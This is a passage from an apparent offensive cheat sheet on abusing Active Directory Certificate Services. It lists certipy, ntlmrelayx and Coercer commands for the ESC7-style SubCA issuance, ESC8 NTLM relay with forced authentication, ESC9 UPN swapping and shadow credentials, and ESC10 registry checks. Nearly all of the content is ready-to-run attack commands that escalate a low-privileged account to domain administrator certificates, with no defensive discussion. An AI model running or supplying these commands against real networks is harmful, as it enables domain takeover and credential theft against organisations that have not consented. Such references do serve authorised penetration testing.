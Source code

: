 ```sh
certipy req -u username@domain -p password -ca ca -target ip -template SubCA -upn username@domain
```

```sh
certipy ca -ca ca -issue-request request_ID -u username@domain -p password
```

```sh
certipy req -u username@domain -p password -ca ca -target ip -retrieve request_ID
```

```sh
certipy auth -pfx pfx_file -domain domain -u username -dc-ip ip
```

##### ESC8

```sh
ntlmrelayx.py -t http://domain/certsrv/certfnsh.asp -smb2support --adcs --template template --no-http-server --no-wcf-server --no-raw-server
```

```sh
coercer coerce -u username -p password -l ws_ip -t dc_ip --always-continue
```

```sh
certipy auth -pfx administrator.pfx
```

##### ESC9

```sh
certipy shadow auto -u username@domain -hashes :hash -account target_username
```

```sh
certipy account update -u username@domain -hashes :hash -user target_username -upn administrator
```

```sh
certipy req -u target_username@domain -hashes :target_hash -ca ca -template template -target dc_ip
```

```sh
certipy account update -u username@domain -hashes :hash -user target_username -upn target_username
```

```sh
certipy auth -pfx administrator.pfx -domain domain
```

##### ESC10

###### Enumeration

```powershell
Get-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\Kdc' -Name StrongCertificateBindingEnforcement
Get-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\Schannel' -Name CertificateMappingMethods
```
